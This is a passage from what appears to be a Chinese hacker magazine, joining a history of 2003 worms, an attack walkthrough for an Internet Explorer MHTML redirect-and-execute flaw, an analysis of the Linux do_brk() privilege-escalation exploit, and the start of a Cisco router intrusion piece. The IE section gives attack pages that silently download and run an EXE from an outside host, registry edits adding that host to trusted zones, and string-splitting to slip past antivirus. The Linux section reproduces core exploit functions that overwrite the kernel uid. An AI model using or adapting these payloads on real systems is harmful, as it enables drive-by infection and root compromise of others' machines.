冲击波出现不久，另外一个带有“以毒攻毒”特性的蠕虫（Welchia，也就是冲击波的第四个变种 MSBLAST.D）出现。该蠕虫同时利用了 DCOM RPC 和 WebDav 漏洞进行疯狂传播。该蠕虫试图从微软网站下载 DCOM RPC 补丁程序，然后安装并重启电脑。它还会向网络中发送 ICMP 包或 PING 包，通过检测回应检查网络中正在使用的系统，结果导致网络中 ICMP 包的网络流量变大。该蠕虫还会试图清除系统中感染的冲击波蠕虫。并且该蠕虫在 2004 年以后会自动进行自我清除。

该蠕虫也被称为：冲击波变种、拒绝仇恨者、W32/Welchia.worm10240、W32/Nachi.worm、WORM_MSBLAST.D、Lovsan、冲击波杀手、假好心等。

虽然该蠕虫看似希望帮助大家打好补丁并清除冲击波蠕虫，但是其最终的破坏力已经超过了冲击波蠕虫本身，危害性非常之大。

> **编者注**

从这点上看来，众多用户系统 IIS 的 WebDav 漏洞似乎并没有补上，但是冲击波会让我们懂得更多。

## 赛文（Swen）

国家计算机病毒应急处理中心通过对互联网的监测，于 2003 年 9 月 18 日晚发现一个新型的蠕虫病毒，并将病毒命名为“赛文”（Worm_Swen.A）。该病毒又被称为“斯文”、“四维”、Worm.Swen。

该病毒传播途径广泛，据报道，截至 2003 年 10 月 19 日上午 11:30，全球被感染电脑台数已经超过 123 万台。该病毒感染所有的 Windows 操作系统，并且该病毒具有非常大的迷惑性。它伪装成微软的升级邮件来诱惑用户，当用户运行附件压缩包中的病毒后，还会弹出对话框，显示安装进度条。该病毒还会实时自动统计已被感染电脑的数量。

该病毒具有如下的一些技术特征：

- 1. 通过 Kazaa 进行传播，病毒拷贝自身副本到 Kazaa 共享文件夹以便于其他用户下载。
- 2. 通过 IRC 的共享软件功能进行传播。
- 3. 通过网络共享进行传播，并试图将自己拷贝到对方系统的启动文件夹中，以便于对方系统启动时自动执行病毒文件。
- 4. 病毒搜索感染计算机中所有类型为 .mbx、.asp、.ht*、.dbx、.wab、.eml 的文件，在其中搜索有效的 E-mail 地址，并向这些地址发送染毒的电子邮件。
- 5. 病毒感染后，会访问一个网站的计数器进行感染计数，以此统计有多少台电脑已被感染。
- 6. 病毒会修改 bat、com、exe、pif、reg、scr 等这些类型文件的注册表关联，以便于病毒有更多被执行的机会。
- 7. 病毒会关闭大部分杀毒和防火墙软件。
- 8. 修改注册表启动项，并且修改注册表 DisableRegistryTools 项以禁止用户使用注册表编辑器，同时在注册表中保存病毒的一些信息。

> **编者注**

通过计数器来统计病毒的感染次数的确是一种不错的想法，这更让人感觉其是一种统计性的实验病毒。不过通过邮件大量传播的病毒，无疑对整个互联网是个极大的摧残。

综上所述，2003 年的确是病毒史上非常不平凡的一年。其中，Slammer 和冲击波两大蠕虫都给我们留下了难以磨灭的印象和惨痛的教训。而各大病毒都用到了 E-mail 传播这种方式，并且几乎都是属于 @mm 级别的^^。QQ 和 MSN 等即时通讯软件开始被病毒所利用，同时 IE 的异常处理 MIME 头漏洞被多次利用以加快病毒的传播。另外，病毒的目的性越来越强，并且大多数病毒程序开始种植后门程序、监听用户口令。

> **后记：**

病毒、蠕虫虽然厉害，但同时我们不得不承认，是我们广大用户自身容忍了它的存在。多数用户的安全意识还有待继续提高。对于病毒来说，如果我们提前打好了补丁，它们完全没有传播的市场。对于大多数 Email 病毒来说，如果我们打好了补丁，做到了不随意执行附件中的陌生文件，或许病毒的发作情况又会是另外一番模样。

另外，很多病毒在被各大反病毒公司发现之后仍然在发作规模上出现了好多次高潮^^。应该说，给自己的机器装备杀毒软件和及时升级病毒库还是非常必要的。虽然笔者对于某些杀毒公司的技术和做法不是非常感冒。我这里不是给反病毒公司打广告，只是我觉得有些花费还是必要的，如果你可以用少量的付出可以换回更多的回报，何乐而不为呢？

脚本小子：12月初，微软又公布了新的漏洞，此漏洞是针对 Microsoft Internet Explorer 浏览器的，绿盟首先发布了 Liu Die Yu 提交的 BugTraq 中发现的“Microsoft Internet Explorer MHTML 文件重定向并执行漏洞”。那么，什么是 MHTML 文件重定向漏洞？什么又是 MHTML 文件？应该怎样利用这个漏洞攻击？又应该怎样防御此类攻击？看了本文，你就会一切都明白了。

## 微软 IE MHTML 文件重定向并执行漏洞分析

文／图 风清扬

## 漏洞文件类型介绍

### 1. MHTML 文件简介

MHTML 即 MIME Encapsulation of Aggregate HTML，是一种 Internet 标准，它定义了用于在电子邮件正文中发送 HTML 内容的 MIME（多用途 Internet 邮件扩展）结构。Windows 中的 MHTML URL 处理程序是 Outlook Express 的一部分，提供可以在本地计算机上使用的 URL 类型。该 URL 类型（MHTML://）使 MHTML 文档可以从命令行、从“运行”对话框、通过 Windows 资源管理器或从 Internet Explorer 内部启动。

### 2. MHTML 文件的问题所在

- 1. MHTML URL 处理程序中存在一个隐患，它使得能够将任何可以以文本方式呈现的文件在 Internet Explorer 中作为网页的一部分打开和呈现。这意味着可以构建一个 URL，使其指向一个存储在本地计算机上的文本文件并将该文件呈现为 HTML。因为该文件驻留在本地计算机上，所以它将在“本地计算机安全区域”内呈现。在本地计算机区域内打开的文件与在其他安全区域中打开的文件相比，受到的限制更少。

  “MHTML://”指定的文件，无论是什么样的文件形式，都会被当作 HTML 文件来处理，这正是问题所在。比如，如果用 MHTML:// 指定记录脚本的文本文件（.txt），就会运行这一脚本。并且，即使嵌入“MHTML://”链接的网页是“Internet 区域”，也会在安全级别最低的“本地计算机区域”运行。MHTML URL 处理程序能够将任何文件类型如同 HTML 文件那样进行处理。例如，如果一个 .txt 文件被使用 MHTML 协议打开，则可以像 HTML 文件那样呈现该文件。这会造成安全隐患，因为某些文件（如文本文件）经常被视为“安全文件类型”，并且 Web 页可能使其在本地计算机区域中打开。如果此类文件包含可执行脚本，并且可使该脚本执行，则该文件可能使用与本地计算机区域而不是 Web 站点相关联的特权来完成此操作。

- 2. “MHTML://”指定的文件，无论是什么样的文件形式，都会被当作 HTML 文件来处理。

- 3. IE 浏览器由于不能正确限制远程站点访问本地资源，远程攻击者可利用此缺陷通过构建恶意页面，诱使用户访问，在本地域中执行任意本地文件。Internet Explorer Version 6 SP1 由于没有正确限制远程站点通过 file:// 或 res:// URI 访问本地资源，这种限制可以通过其中一个协议在指定资源上增加一个“//”符号绕过。如果结合其他安全缺陷，允许攻击者构建恶意页面，当目标用户访问后在可预测位置中建立文件，并会通过畸形 IFRAME、OBJECT 等方式继续利用，在本地域中执行。

- 4. 而 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞则是利用“Microsoft Internet Explorer 在处理安全区域中的 MHTML 文件和 res URI 时存在问题，远程攻击者可以利用这个漏洞从恶意位置装载嵌入对象并执行”。

## MHTML 文件重定向漏洞的利用

不得不说，这个 IE 漏洞又将我们的 IE 安全性大大地降低了，降低到没有任何安全性可言！为何要这样说呢，通过下面的介绍你就会明白。

MHTML 文件漏洞攻击的方法和目的：攻击者可以通过以下方法来利用该隐患。用 MHTML 格式炮制一个 URL，并引诱用户访问承载该 URL 的 Web 站点。如果攻击者能够猜到用户本地系统中包含恶意脚本的文件所在的位置，或能够将恶意脚本放到用户计算机上的已知位置中，则就可以使该脚本在 HTML 页中执行。攻击者可以尝试使用 MHTML URL 处理程序将用户计算机上已经存在的文件作为 HTML 页进行呈现。如果攻击者能够将包含恶意脚本的 .txt 或 .exe 等文件放在用户的计算机上，则他/她然后就可以尝试使用 MHTML URL 处理程序将该文件作为 HTML 文件打开，从而使脚本得以执行。在本地计算机区域中运行的脚本受信任的程度通常要比在 Internet 区域中运行的脚本高，后者通常是从 Web 站点下载和调用的。然而，通过 Web 站点直接下载文件到计算机内而不产生任何提示，这又将是一个大问题，怎么做才能完全通过 IE 的安全设置？在谈这个问题之前，我们还是先看一下 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞的执行条件。

当 MSIE 可以尝试获取嵌入在 MHT 文件中的文件：`mhtml:[Mhtml_File_Url]![Original_Resource_Url]`。如果 `[Original_Resource_Url]` 不能从 `[Mhtml_File_Url]` 中获取，IE 就会尝试下载 `[Original_Resource_Url]` 并返回下载内容，这类似 HTTP 重定向，并且 CODEBASE 执行是基于 URL 检查，因此在本地电脑安全中，把一个没有使用 CLSID 的 OBJECT 标记的 CODEBASE 属性指向：`mhtml:file:///C:\No_SUCH_MHT.MHT![Attaker_PayloadEXE_Url]`，IE 就会下载 `[Attaker_PayloadEXE_Url]` 并执行。

于是根据此问题，我们在本地机进行了一次漏洞测试，测试的经过如下：

- 制作标准攻击页面 attr.html，代码如下：

```html
<object name="x"
classid="clsid:12345678-1234-1234-1234-123456789012" codebase="mhtml:file:///C:\NO_SUCH_MHT.MHT!http://127.0.0.1/mhtml/mhtml.exe">
确定建立 mhtml.exe 文件存在
执行 attr.html，
运行结果为 mhtml.exe 在本地直接运行
```

本地测试成功，整个攻击过程中没有任何提示便直接运行了 mhtml.exe 文件。接下来，进行远程下载 EXE 文件攻击测试。

结果一定是失败的，IE 本身的安全设置由于远程 Web 站点的可信度问题，使文件下载没有通过安全策略（注：我不清楚其他人在测试时是否出现了这样的问题，我在测试远程攻击的时候从远程站点下载 EXE 文件时，出现了以上的问题）。所以，在解决这个问题上，我花了一些时间。

如何使 EXE 文件在下载时无任何提示？通过一系列的测试之后，我得到了答案：我将取 EXE 文件的站点加到可信站点或本地 Internet 区域，然后重启 IE 就可以了。问题就在如何将下载站点加到可信任站点或者是本地 Internet 区域。由于前几次的 IE 漏洞补丁和个人用户本地的防毒软件，几乎使 IE 网页手段修改注册表成为不可能。我在此又分析了一下防毒软件在过滤恶意脚本时所采用的特征码：



从以上语句我们就可以看到，基本上完成了所有的操作，包括修改注册表，保留自身保护操作的自启动程序，以及操作完毕自删除。然而最可怕的是，所有的杀毒软件对它都不过敏，没有一个软件报警。好了，一切准备好了，就等被攻击的用户再次开机了，等他再次开机，注册表就会自动被修改，IE 会自动打开到我们构建好的网页，在一般人看来好像是简单中了修改注册表的病毒，最多是把 IE 修复一下，然而我们埋在网页背后的阴谋也就得逞了。

```javascript
00C04FD58A0B}\")");
document.writeln("ai.createIn"+"stance(); ");
document.writeln("Net = ai.Get"+"Object(); ");
...... 省略 N 个字符 ......
// 以下为攻击模式 100ms 内完成
WaitFordocument.cached_TIME=100;
function LaunchRemoteExe_Step2()
{
    for(i=1;i<=2;i++)
        w.document.execCommand('Refresh'); // 这句关键 :)
}
function LaunchRemoteExe(ExeUrl)
{
    w=window.open('about:blank','_blank',
      'width=1,height=1,resizable=no location=no left=99999 top=999');
    w.document.write('<OBJECT NAME="X' +
      ' CLASSID="CLSID:10000000-1100-1001-0111-100000001131" CODEBASE="mhtml:file&://C:\\NO_SUCH_MHT.MHT!' + ExeUrl + '">');
    setTimeout('LaunchRemoteExe_Step2()', WaitFordocument.cached_TIME);
}

LaunchRemoteExe('http://www.e3i5.com/mhtml.exe');
</script>
```

另外，补充一点的是，修改注册表的关键所在是以下两条注册表信息。作用是添加我们的 EXE 文件下载站点到他的计算机的本地 Internet 区域和可信任站点区域内：

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\e3i5.net
// e3i5.net 为我们的下载站点域名

HKEY_USERS\S-1-5-21-73586283-854245398-1417001333-1000\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\e3i5.net
// e3i5.net 为我们的下载站点域名
```

好了，下面构建我们最新的攻击网页 hacker.html：

```html
<script>
// 以下添加注册表修改代码若干
document.writeln("<APPLET HEIGHT=0"+
  ' WIDTH=0 code="'+'com.ms.activeX.'+
  'Acti'+'veXComponent'+'"></APPLET>');
document.writeln('Function destroy() {');
document.writeln('try {');
document.writeln('ai=document.applets[0]; ');
document.writeln('ai.setCLSID' + '("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}")');
document.writeln('ai.createI'+'nstance(); ');
document.writeln('Shl = ai.Get'+'Object(); ');
document.writeln('ai.setCLSID'+'("{0D43FE01-F093-11CF-8940-00A0C9054228}"); ');
document.writeln('ai.createInst'+'ance(); ');
document.writeln('FSO = ai.Get'+'Object(); ');
document.writeln('ai.setCLSID' + '("{F935DC26-1CF0-11D0-ADB9-...');
```

呵呵，为什么要写成这样呢？用脚本写，可以加密嘛，加密后别人不认识也就无从下手了！

以上是 Microsoft Internet Explorer MHTML 文件重定向并执行漏洞的攻击分析，由于微软并没有提供此漏洞的修复补丁，所以本文只是作为讨论性质的文章出现，文章内所提到的攻击办法，也只是我在本地的个人计算机上测试通过，不代表所有的计算机都可能通过以上的攻击办法。另外，所有利用本文对其他用户进行攻击的，全部责任都将由攻击者负责。

## 编者：

> 这个漏洞公布后，各大安全站点相继推出了系列漏洞利用程序，但是每个程序都有缺陷，并未完全掌握漏洞灵魂。本文在编制的时候作者直言了这一点，而作者也是通过很长时间的研究才完全“搞定”这个漏洞的，相关的防范办法请看针对该漏洞的防御文章！



## 透视 Linux 内核级漏洞

### ——Linux kernel do_brk() 参数边界检查不充分漏洞分析

脚本小子：前段时间，我在 Full-Disclosure 邮件列表里收到了 一封 Debian Linux 安全小组发来的题目为“Some Debian Project machines have been compromised”的安全公告。该安全公告中提到 Debian 多台服务器被入侵，令人奇怪的是，其中并没有提到任何被入侵的细节，只是说过几天后会公布对被入侵主机的取证结果。这个公告引起了我们极大的兴趣，因为 Debian Linux 的安全性是非常好的，攻击者肯定使用了一些未知漏洞获取了管理员权限。几天后终于获悉，攻击者使用的就是我们下面将要分析的漏洞：do_brk() 边界检查不充分导致本地权限提升漏洞。因为这种漏洞对系统产生的影响非常罕见，所以我们甚至可以定义此漏洞为一种新的漏洞类型。在下面的文章中，我们将就此漏洞的背景、成因和利用方法展开讨论。

- 适合对象：程序员，骨灰级老鸟
- 前置知识：Linux 内存管理、C 语言

文／图 lcbmleilei［启明星辰防御实验室］

## 漏洞背景

在分析该漏洞前，我们先来看看它的一些背景资料，说不定我们可以从这些背景资料中发现一些有用的东西。

其实，这个 brk 漏洞在 2003 年 9 月份就被 Linux 内核开发人员发现，并在 9 月底发布的 Linux kernel 2.6.0-test6 中对该漏洞作了修补。奇怪的是 Linux Kernel 开发人员可能认为这个漏洞并不是什么严重问题，所以对该漏洞的发现修补未作任何安全公告，如此轻率地处理安全漏洞的举动使 Linux 系统管理员完全没有注意到此漏洞的存在，就更不要说对系统修补此漏洞了。同时在 2003 年 9 月底，isec 的 Paul (IhaQueR) Starzetz <paul@isec.pl> 也发现了此漏洞，isec 对此漏洞进行了详细地分析，并且对此漏洞的攻击方法作了深入的研究，写出了 brk 漏洞非常稳定且有效的攻击程序。因为攻击程序的泄漏，所以使攻击者利用此攻击程序获取了 Debian 的多台服务器管理员权限。11 月 28 日，Linux 内核推出的 2.4.23 版本中才修补了此漏洞，至此经过了两个多月，此漏洞才被在 Linux 稳定版本内核中修补。

## 漏洞原理分析

在分析此漏洞之前，我们先来简单介绍一下 Linux 内存管理方面的知识。

在 Linux 中，每一个进程都可以访问 0～4G 的虚拟线性内存地址，而其中 0～3G（0xc0000000）为用户空间，用户进程可以访问其中任何一个地址。这个最大值（0xc0000000）在 Linux 中通常被定义为 TASK_SIZE，这个值也就是用户空间所能访问的极限。从 3～4G 的虚拟内存地址空间为内核态地址空间，其中存放的数据由所有进程共享但只能由内核访问，用户进程不能访问。用户进程可以通过中断或者系统调用使操作系统由用户态切换到内核态来访问内核态数据。

OK，现在我们有了 Linux 内存管理的一些概念后，大家可以大胆地设想一下：如果我们可以通过某些操作（或者某些 Linux 操作系统中的漏洞）来突破这个 TASK_SIZE 的限制将会出现什么情况呢？嗯，对了，这时候我们就可以访问到内核中敏感的数据，通过对这些敏感数据的操作就可以获得系统的最高权限。

然后让我们回到这次讨论的 brk 漏洞中，该漏洞被发现于 brk 系统调用中。brk 系统调用可以对用户进程的堆的大小进行操作，使堆扩展或者缩小。我们先来看一下从 Linux 内核源代码中抽取的系统调用 sys_brk 的部分源代码。



大家看了系统调用 sys_brk 的源代码后可以发现，其实它内部是调用了 do_brk() 函数来对堆进行操作，让我们再来看一下 do_brk() 函数的源代码来看看这个 bug 真正是怎么产生的：



从上面的代码中我们可以看到 do_brk() 函数在调整进程堆的大小时没有对参数 len 进行任何检查，也没有对 addr+len 是否超过 TASK_SIZE 做检查。这样我们就可以向它提交任意大小的参数 len，使用户进程的大小任意改变，以至可以超过 TASK_SIZE 的限制，使系统认为内核范围的内存空间也是可以被用户访问的，这样的话普通用户就可以访问到内核的内存区域。

好了，现在我们分析了为什么这个 do_brk() 会出现这样的漏洞，也讨论了这个漏洞会产生什么影响，但是我们更关心的是如果让我们访问内核的内存区域，我们要做些什么工作，我们可以获得什么信息，怎样修改内核中的信息才能提升我们的权限？接下来让我们把目标放在对此漏洞的利用上。

## 漏洞利用分析

Debian 服务器被攻击后很多安全专家都在研究讨论 brk 漏洞。从上面背景材料中知道：刚开始内核开发人员发现该漏洞时，并未及时做出修补，也没有进行任何公告，其中一个原因就是这种类型的漏洞非常罕见，可能算是一种新型的漏洞吧。对这种可以扩展用户可访问内存区域到内核内存区域的漏洞，在以前并没有被广泛地研究讨论过，而且对这种漏洞产生的影响并不能被很直接地观察到。还有就是，这种漏洞的可利用性也从来没有被证实过，而且此漏洞产生的影响在内核中，利用这种漏洞的方法不像在 Linux 下利用缓冲区漏洞那样直接，会涉及到很多方面，更增加了利用此漏洞的困难。而 isec 却敏锐地观察到此漏洞对 Linux 内核安全的严重危害性，在对这种新漏洞类型的利用方面作了深入地研究，并且研究出了几种利用这种漏洞并提高攻击程序稳定性的技术，12 月初他们发布了关于此漏洞利用方法的详细分析与攻击程序。11 月底时我们与 HD Moore 深入地讨论了关于此漏洞的利用方法与可能性，提出了一些利用此漏洞的想法与疑问，因为 isec 发布的文档完善地回答了我们的这些问题，在这篇文档中就以我们提出的疑问为线索来描述这种新的类型漏洞的攻击技术。

## 问题 1：

因为当时在 BugTraq 上发布了一个关于此漏洞的 POC 代码，但此 POC 代码并不是直接利用 do_brk() 函数来触发此漏洞，而是利用一个被构造的畸形 ELF 文件来触发了此漏洞。经过我们讨论认为，直接使用 brk 系统调用要比使用构造的 ELF 文件来触发此漏洞更为简单，接下来的问题就是怎么使用 brk 系统调用来触发此漏洞。

## 问题2

怎么向扩展的内存区域写入数据，当时测试了几种方法都不成功。当时 HD Moore 认为绝对可以向内核区域中写入 4 个字节。我提出是否能直接使用 ptrace 来读写该被扩展的内存区域，但是测试了一下，不知道什么原因没有成功。

## 问题3

如果我们可以向内核里写入数据，我们想要写些什么东西？向哪里写？与 kkqq 讨论的结果是最简单的方法就是找到 current，然后直接 uid=0，嘿嘿，确实是好方法。但是我们要怎么找到 uid、gid、euid 呢？下面，让我们看看 isec 利用什么样的技术来解决这些难题的。

## 问题1的解决方法

因为使用 brk 漏洞扩展进程的内存范围时，这个内存范围内不能有任何已经被映射过的内存。但是大家知道，进程的堆栈地址范围就是在 TASK_SIZE 下方，想要使用 brk 漏洞来突破 TASK_SIZE 的限制，就得先把这一段内存范围搬离紧挨着 TASK_SIZE 的地方，怎么做呢？

就是给进程重新分配一个堆栈起始的地址。从 isec 提供的 exp 中我们可以看到：

```c
void remap(void)
{
    static char stack[8 MB]; /* new stack */

    asm ("movl %0, %%esp\n"
         :
         : "a" (stack + sizeof(stack))); // cool, get a new stack, movl stack+8M, %esp
    b = ((unsigned)sbrk(0) + PAGE_SIZE - 1) & PAGE_MASK;
    if (munmap((void*)b, task_size - b) == -1)
        fatal("Unable to unmap stack");
}
```

首先分配了一个 8MB 的静态空间，然后把 stack+8MB 的地址放到 esp 中，让堆栈指针指向着新的内存空间，这就是此进程获得一个新的堆栈。然后再 unmap 掉一段内存，这样就使得我们可以使用这个漏洞来把地址扩展到 TASK_SIZE 以上。因为不能用 brk 系统调用一次就超过 TASK_SIZE 的限制，可以使用 sbrk() 来一次一小段的方法来越过这个 TASK_SIZE。

```c
/* critical code here, exploit the brk vul */
void expand(void)
{
    unsigned top = (unsigned) sbrk(0); // 可以用sbrk(0)获得当前heap地址
    unsigned limit = address + PAGE_SIZE;
    do {
        if (sbrk(PAGE_SIZE) == NULL) // 每次扩展4k大小的内存区域
            fatal("Kernel seems not to be vulnerable");
        context = 1;
        top += PAGE_SIZE;
    } while (top < limit);
}
```

OK，我们知道怎么触发此漏洞后，接着来看看向刚才获得的这块大于 TASK_SIZE 的内存区域写数据。

## 问题2的解决方法

看了 isec 对该漏洞利用方法的描述后，发现以前我们讨论的使用 ptrace 的方法也是可行的，但是忽略了普通用户进程因为权限不够还是不能访问 kernel 的页这一点，需要改变这些内核使用的内存页面的属性。我们可以使用 mprotect() 系统调用为我们完成这个工作。

```c
void knockout(void)
{
    unsigned * addr = (unsigned *) address;
    if (mprotect(addr, PAGE_SIZE,
        PROT_READ|PROT_WRITE) == -1) // 把addr指的页的属性改变成可读写。
        fatal("Unable to change page protection");
}
```

这样我们就可对该内核页面进行读写操作了。

## 问题3的解决方法

现在我们可扩展进程的内存范围超过 TASK_SIZE，而且也修改了内核页的属性为可读写。

接下来，我们要解决的问题是怎么获得内核的运行权限来修改内核中的页面。isec 使用的一种方法就是通过使用 LDT 中的调用门来获得从普通用户权限到内核权限的转换。但是怎么找到进程中 LDT 的地址呢？可以通过扫描 LDT 表分配前与分配后的内存映射情况来找到 LDT 的准确地址。下面我们来看看这些操作是怎么实现的：

首先，在分配 LDT 表以前对整个内核区域中已被映射的页面做标记：

```c
void map(unsigned * map)
{
    unsigned addr = task_size;
    unsigned bit = 1;
    prepare();
    while (addr < TOP_ADDR) {
        if (testaddr(addr) == MAP_ISPAGE)
            *map |= bit;   /* 判断该内存页是否被映射，如果是做个标记 */
        addr += PAGE_SIZE; /* 下一页 */
        next(map, bit);
    }
    signal(SIGSEGV, SIG_DFL);
}
```

这样做是为了给这一段内存做扫描，以便把这个区域中未申请 LDT 内核空间时所有已经被映射的内存页标示出来。然后为 LDT 申请内核空间，最后再一次扫描找出 LDT 表的准确位置。让我们看一下代码实现。

```c
void find(unsigned * m)
{
    unsigned addr = task_size;
    unsigned bit = 1;
    unsigned count;
    unsigned tmp;
    prepare();
    tmp = address = count = 0U;
    while (addr < TOP_ADDR) {
        int val = testaddr(addr); /* 使用 asm ("verr (%%eax)" : : "a" (addr)) 来判断该页是否被映射 */
        if (val == MAP_ISPAGE && (*m & bit) == 0) {
            if (!tmp) tmp = addr;
            count++;
        } else {
            if (tmp && count == LDT_PAGES) {
                errno = EAGAIN;
                if (address)
                    fatal("double allocation\n");
                address = tmp;
            }
            tmp = count = 0U;
        }
        addr += PAGE_SIZE;
        next(m, bit);
    }
    signal(SIGSEGV, SIG_DFL);
    if (address)
        return;
    errno = ENOTSUP;
    fatal("Unable to determine kernel address");
}
```

因为前面 map() 函数已经把这一段内存区域中的每一个页的最后一位置 1，所以当 LDT 表被分配后，LDT 表占用的内存页都没有做标记，这样就可以找到 LDT 表的准确位置。关于 LDT 与调用门的详细内容，读者可以阅读参考 2。

现在通过调用门我们就可以修改内核中的任意内容了，可是修改 kernel 的哪些数据结构才能使我们提升权限呢？嗯，其实就像前面提到的，如果能直接改写 uid 就可以了。现在我们面临的困难就是如何找到它。让我们来看看 isec 的 exp 中使用的方法：

```c
asmlinkage void kernel(unsigned * task)
{
    unsigned * addr = task;
    /* looking for uids */
    while (addr[0] != uid || addr[1] != uid ||
           addr[2] != uid || addr[3] != uid)
        addr++; /* 这个 while 用来寻找我们要改写的 uid 地址 */
    addr[0] = addr[1] = addr[2] = addr[3] = 0; /* uids */
    addr[4] = addr[5] = addr[6] = addr[7] = 0; /* gids */
    addr[8] = 0;
    ...
}
```

这里我们可以看到这段代码就是在内存中寻找。

脚本小子：router 可是个好东西，被我们称为“网络的核心”！它是网络的中继点，起着保证网络功能实现的重要作用。上几期我们刊登了和路由相关的一些文章，就是希望大家认识到它的重要作用，从而更好地为它做好防护。本期我们着重讨论如何发现确认 Cisco 路由器以及如何利用路由器的漏洞与配置错误，希望大家能真正明白路由存在的问题，让每个管理员都能做好安全防护！

- 适合对象：路由器爱好者
- 前置知识：Cisco 基础

## Cisco 路由器访问权限

文 / Squ4Li

## 被遗忘了的路由器

渗透测试者一般会对一些比较有吸引力的系统感兴趣，例如存在漏洞的 Solaris 8 系统，但往往忽视了对核心网络组成设备的测试。所以，在这里我要提醒做渗透测试的人，不要忽略这些关键的系统，它们是整个网络安全中很重要的一环。用户会经常会问，“如果 Internet 上的任何人都可以访问到这个路由器的 telnet 服务会不会有什么风险？”或者说“我需要这个路由器开放 SNMP 服务，这样我好对它进行管理”。这也暗示了这两个服务对于测试者的重要性，仅就这两个服务来说（还并不是非要服务的代码中存在漏洞）就能给测试者（或者攻击者）提供足够的机会入侵路由器。

由于这些网络设备对于整体的安全性、可靠性，以及网络的可用性的重要，因此渗透测试者最好在认为自己的网络已经很安全之前，对路由器的安全进行仔细深入的测试。

对于路由设备的完全控制经常可以导致对于整个网络的完全控制——意思是从路由器获得来自网络中某个系统的认证信息，或者将网络中一些通信导向其他的系统而不是本来应该的目的地。

我曾经控制了整个能源公司的网络。我用暴力破解获得了 SNMP 的写权限的 community 字符串，启动了 TFTP 并将路由器的配置文件传送到我的 TFTP 服务器上。然后安装了我需要的管理软件（当时我控制的是一个老的 Bay ARN 路由器），就可以非常容易地对路由器进行重新配置，让它按照我的想法去工作了。我可以删除访问控制列表（ACLs），利用该系统来 telnet 或者 ssh 到内网的其他系统中去，或者直接使这个网络瘫痪。除了以上的这些威胁以外，最让人担心的一点在于：我是很轻松地在我北弗吉尼亚州的办公室完成这些事情的（脚本小子：汗！是不是说得太恐怖了）。

空说无用，下面让我们一起来实际测试一下！

## 如何确认路由器

路由器可以被配置得与网络中的其他系统相似——上面可以运行 Web 服务器、SSH 守护进程、chargen，它们甚至可以被配置来看上去运行了多个 X 服务器。因此，路由器经常被错当成 Unix 系统。

也许判断网络中的某个机器是否是路由器的最简单最准确的方法就是使用 Nmap 了，它是一种带有非常准确的 OS 指纹判断功能的端口扫描器。以下是一个典型的对 Cisco 路由器的扫描结果。

| Port | State | Service |
|---|---|---|
| 7/tcp | open | echo |
